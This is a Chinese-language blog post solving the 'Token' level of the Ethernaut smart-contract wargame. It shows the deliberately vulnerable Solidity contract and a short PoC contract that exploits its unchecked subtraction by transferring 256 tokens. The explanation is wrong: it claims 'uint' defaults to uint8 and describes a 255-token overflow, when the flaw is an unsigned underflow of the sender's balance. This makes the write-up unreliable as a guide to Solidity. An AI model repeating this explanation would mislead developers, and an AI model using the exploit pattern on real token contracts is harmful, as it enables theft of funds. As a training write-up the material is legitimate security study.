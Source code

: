 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-4'
date: 2022-12-9 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'







---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第五关Token  思路与POC

##### 目标: 初始分配20token 想办法增加

#### 先看代码:

代码逻辑上是没有问题的,标准ERC20的实现.那么问题在哪里呢:question:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  //注意看数据类型,在solidity中uint如果不指定数据类型存储范围的话默认是uint8
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

poc思路:point_right:：既然总共的token供应单位是uint8的话,那么只需要transfer超过255的token就会数据溢出

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Token.sol";

contract tokenHack{

  Token token = Token(0x4532122Ab6D63e095A220ed37F77E1752B88b8C3);
  //只需要转账的token数量超过255即构成数据溢出,效果就会转账255的token到指定地址,不管转出地址有多少token
  function overflow() public {
      token.transfer(0x0e21d35681E679C33dD49731935FB81F1aee8C05,256);

  }
}
```

